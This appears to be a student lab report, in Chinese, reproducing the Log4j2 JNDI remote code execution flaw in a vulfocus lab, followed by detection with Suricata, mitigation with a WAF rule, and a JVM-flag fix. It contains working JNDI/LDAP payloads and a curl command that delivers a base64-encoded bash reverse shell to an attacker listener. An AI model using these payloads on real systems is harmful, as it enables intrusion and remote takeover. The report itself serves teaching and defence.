


# 网安实践实验报告-log4j2部分

## 实验环境

| 主机名 | 操作系统版本 |
| --- | --- |
| kali-victim | kali-2024 linux |
| kali-attacker  | kali-2024 linux |

## 实验过程

### vulfocus 环境搭建

1. 在 kali-victim 检出实验 git 仓库

    ```
    git clone https://github.com/c4pr1c3/ctf-games
    ```
    <div></div>

2. 拉取 vulfocus 镜像

    ```
    docker pull vulfocus/vulfocus:latest
    ```

3. 修改 /ctf-games/fofapro/vulfocus/start.sh 文件末尾处的 ```docker-compose up -d``` 为 ```docker compose up -d```

    <div></div>

4. ```bash start.sh``` 启动容器

    <div></div>

5. 此时在宿主机浏览器中访问对应 ip 地址，输入账号密码 ```账号：admin 密码：admin```

    <div></div>

6. 成功搭建 vulfocus 环境

    <div></div>

### log4j2 漏洞环境搭建

1. 按照老师视频中的步骤，配置 vulhub 实验环境，并在镜像管理中下载 log4j2 漏洞镜像，并在首页中启动 log4j2 漏洞复现环境。

   <div></div>

2. 按照视频步骤，配置 vulhub 实验环境，并在镜像管理中下载 log4j2 漏洞镜像，启动 log4j2 漏洞复现环境。
   
   <div></div>

3. 启动后可以看到镜像具体内容如下所示，其中包括镜像的访问地址：
   
   <div></div>

   - 访问该网址，可以正常访问。

   <div></div>

   - 点进网页中唯一的连接，可以看到页面出现 `ok` 字样，这里地址栏中的 `payload` 作为参数传递给日志记录器，表示这个值将被记录到日志中，意味着有可能可以被我们利用进行攻击。

   <div></div>

### log4j2 漏洞靶机上的缺陷代码已完成逆向分析，定位到了漏洞代码片段

1. 接下来我们尝试找到漏洞相关代码片段，首先用 `docker ps` 查看正在运行的镜像，可以看到 log4j2 漏洞镜像。用以下命令进入该镜像：
      ```sh
      docker exec -it <镜像名称> bash
      ```
   <div></div>

2. `ls` 后看到当前目录下有 `demo.jar`，这应该便是漏洞的相关代码的文件了。

   <div></div>

3. 将 `demo.jar` 拷贝到本地虚拟机中
   ```sh
   docker cp <漏洞镜像名称>:/demo/demo.jar ./
   ```
   <div></div>

4. 用反编译工具的图形化界面分析 `demo.jar`，找到代码漏洞片段。首先需要下载该工具 JD-GUI，在官网上找到相应下载路径，下载后拖入到虚拟机中进行安装。

   <div></div>

5. 输入下述命令安装并运行该工具：
   ```
   sudo apt update
   sudo apt install default-jre
   java -jar jd-gui-1.6.6.jar
   ```

6. 运行成功后，会出现该工具的图形化界面，点击左上角的 `File`，选择 `Open`，打开 `demo.jar`，便可方便地查看代码。
   <div></div>

7. 跟随老师的视频，找到代码漏洞片段如下：
   <div></div>

   - 从反编译出来的代码可以看到日志记录格式使用了 `{}` 占位符表示 `payload` 的值将被格式化并记录。如果 payload 的内容不受限制或没有被正确清理，攻击者可能能够控制日志中的输出。

### log4j2 漏洞利用复现
   
1. 接下来，验证漏洞可利用性。打开 `www.dnslog.cn` 这一网站，点击 `Get SybDomain` 按钮，获取专属的子域名。
   <div></div>

2. 在虚拟机中尝试发送 `POST` 请求，查看是否能够成功触发漏洞。很明显，没有成功。(图片和前面图片的端口不同是因为尝试了多次，但截了这一次的图)
    ```sh
    curl -X POST http://192.168.198.13:31388/hello -d 'payload="${jndi:ldap://v89v2i.dnslog.cn/ajdjd}"' 
    ```
   <div></div>
   
   - 再看漏洞代码片段，与老师视频中不同，我们的漏洞代码中 `payload` 是通过 `GET` 请求传参的，而不是 `POST` 请求。但是使用 `GET` 请求 dnslog 网站没有 record。
   <div></div>

3. 将 `payload` 改为 `GET` 请求的方式，并使用 url 编码，成功发送请求。
   ```sh
   curl -G http://192.168.198.13:31388/hello --data-ulencode 'payload="${jndi:ldap://tq8lht.dnslog.cn}"'
   ```
   <div></div>

   - 同时查看 dnslog 网站，新增了两条记录，也就是说它解析了两次这个域名。成功验证漏洞可利用性。
   <div></div>

4. 接下来尝试利用漏洞进行 shell 反弹。首先在攻击者虚拟机中下载 JNDIExploit 工具并验证是否正确（可以看到校验和相同，证明下载包并未在途中被更改）

    ```
    # 获取zip包
    wget https://github.com/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip

    # 解压缩
    unzip JNDIExploit.v1.2.zip

    # 计算SHA-256校验和
    shasum -a 256 JNDIExploit-1.2-SNAPSHOT.jar
    # c96ce1de7f739575d86f2e558aeb97dc691077b31a1c510a3dabf096c827dfa8  JNDIExploit-1.2-SNAPSHOT.jar
    ```
    <div></div>

5. 利用漏洞进行 shell 反弹

    ```
    # victim 主机，检查漏洞容器已经正常启动
    docker ps

    # attacker 主机开启多个终端
    # 1.监听7777端口等待 shell 反弹
    nc -l -p 7777

    # 2.启动 JNDIEXploit 攻击服务器
    java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <attacker ip>

    # 3.发送携带攻击命令的 GET 包
    curl -G http://<victim ip>:<log4j2 漏洞环境端口>//hello --data-urlencode 'payload=${jndi:ldap://<attacker ip>:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/<attacker ip>/7777 0>&1' | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')'}'
    ```
    <div></div>

    - 如上图，可以看到 curl 发包回显 ok ，JNDIExploit 输出执行命令日志，7777端口成功进入容器，反弹 shell 成功。此时 ```ls /tmp``` 可以看到 ```flag-{bmh95574061-0a5e-4a41-9d01-aefb592faa63}``` ，将其输入 vulfocus 平台提交通过。
    <div></div>
    <div></div>

6. 漏洞利用流量检测。

    ```
    # 启动 suricata 检测容器
    # 此处 eth1 对应靶机所在虚拟机的 host-only 网卡 IP
    docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4

    # 更新 suricata 规则，更新完成测试完规则之后会自动重启服务
    docker exec -it suricata suricata-update -f

    # 监视 suricata 日志
    docker exec -it suricata tail -f /var/log/suricata/fast.log
    ```

    - 由于截图在实验完成之后，此处 suricata 容器已经存在，手动启动一下
    <div></div>
    <div></div>

    - suricate 容器启动后监视日志，手动执行第 5 步的反弹 shell 过程，可以看到相关流量。
    <div></div>

### log4j2 漏洞缓解完成，并验证了缓解效果，但依然有绕过方法可以完成漏洞利用

1. 使用 WAF（Web Application Firewall，Web应用防火墙）进行漏洞缓解。本次实验选用 [南墙WAF docker版本](https://github.com/Safe3/uuWAF)。

    - 根据官方文档完成安装
    ```
    curl -fsSL https://waf.uusec.com/waf.tgz -o waf.tgz && tar -zxf waf.tgz && sudo bash ./waf/uuwaf.sh
    # =========================
    # 南墙Docker管理
    # =========================
    # 1. 启动
    # 2. 停止
    # 3. 重启
    # 4. 更新
    # 5. 卸载
    # 6. 清理
    # 7. 退出

    # 请输入数字:1
    ```
    <div></div>
    <div></div>

    - 登录后台：访问 ```https://<victim ip>:4443``` ，用户名admin，密码Passw0rd!。
    <div></div>
    <div></div>

2. 启动一个本地漏洞环境镜像 log4j2_exp ，设置宿主机的端口 8888 映射到容器的端口 8080 ，意味着外部只能通过 victim 的 8888 端口访问容器内部。

    ```
    docker run --name log4j2_exp -p 8888:8080 vulfocus/log4j2-rce-2021-12-09:latest
    ```
    <div></div>

3. 在南墙 WAF 后台进行配置。

    - 添加一条规则，设置其拦截请求中包含 ```jndi:``` 关键字的数据包
    <div></div>
    
    - 执行以下命令查看靶场在 docker 容器内的地址：
    ```sh
    docker inspect {容器名称} | grep '"IPAddress"'
    ```
    <div></div>

    - 添加站点，自定义一个简单的拦截页面，设置上游服务器为 `<容器 log4j2_exp 的内部 IP 地址>:8080` ，勾选中设置的规则。
    <div></div>
    <div></div>

    - 理论上来说此时通过 WAF 监听端口和 容器 log4j2_exp 的内部 IP 地址可以访问到漏洞页面，但使用了各种方法始终无法实现。暂时无法解决。
    <div></div>

4. 流量转发设置理论上应该是正确的，WAF 站点上游地址也正确设置了，那么问题可能出现在 WAF 规则上。

    - 新建了一个规则，将过滤阶段由`请求页面`阶段改为`返回页面`阶段，保存设置。
    <div></div>

    - 再次进行带有 `jndi` 参数的 curl 请求，返回了我们自定义的拦截页面，同时反弹 bash 失败，所以可以确定拦截成功，log4j2 缓解成功。
    <div></div>

    - 查看 WAF 首页，可以看到我们测试了十六次，都被拦截了，且均有日志记录。
    <div></div>

    - 从日志管理可以查看详细的拦截攻击日志信息：
    <div></div>

    - 点开其中一条日志，可以看到拦截的攻击载荷情况以及请求的报文信息便于我们分析攻击的具体情况。
    <div></div>

    - 至此，log4j2 漏洞缓解成功，并验证了缓解效果。

### log4j2 漏洞修复完成，并验证了修复效果

1. log4j2 漏洞触发原理：
    
    - log4j2在解析日志信息时，支持 JNDI（Java Naming and Directory Interface） 查找，即在收到携带 ```${jndi:ldap://attacker.com:1389/Exploit}``` 这样类似的输入时，会尝试解析 ```${jndi:...}``` ，访问 ldap 服务器 ```ldap://attacker.com:1389``` ，远程加载 JAVA 代码导致 RCE（远程代码执行）。
    - 那么比较简单紧急的修复思路就是，禁用默认的 JNDI 查找。

2. 通过修改 JVM 参数紧急修复漏洞

    - 现将原来的漏洞容器删除
    ```
    docker stop <容器id>
    docker rm <容器id>
    ```
    <div></div>

    - ```formatMsgNoLookups``` 参数控制 Log4j2 是否允许在日志消息中执行变量查找，通过添加该参数启用来禁用 Log4j2 在日志消息中的 ```${}``` 变量查找，即让 log4j2 不再解析 jndi 来避免 RCE 。
    ```
    docker run -d -p 8888:8080 --name log4j2-vuln \
    vulfocus/log4j2-rce-2021-12-09 \
    java -Dlog4j2.formatMsgNoLookups=true -jar /demo/demo.jar
    ```
    <div></div>
    
3. 再次尝试进行反弹 shell ，可以看到漏洞利用失败：

    <div></div>
    <div></div>

4. 修复评估

    - ```-Dlog4j2.formatMsgNoLookups=true``` 仅适用于 Log4j2 版本 2.10.0 到 2.14.1 。
    - ```-Dlog4j2.formatMsgNoLookups=true``` 只能防止日志中出现的 ```${jndi:...}``` 利用漏洞，仍可能有其他方式利用漏洞，漏洞仍旧存在。
    - 上述方法可能只是应急的修复方案，比较简单，较彻底的修复方式仍然是升级 log4j2 版本。

## 参考资料

[【Vulfocus漏洞复现】log4j2-cve-2021-44228](https://blog.csdn.net/weixin_45632448/article/details/124149561)

[Log4j2远程执行代码漏洞如何攻击? 又如何修复](https://blog.csdn.net/fly910905/article/details/122348891?ops_request_misc=&request_id=&biz_id=102&utm_term=%E4%BF%AE%E5%A4%8Dlog4j2&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-1-122348891.142^v102^control)

[南墙WAF](https://github.com/Safe3/uuWAF)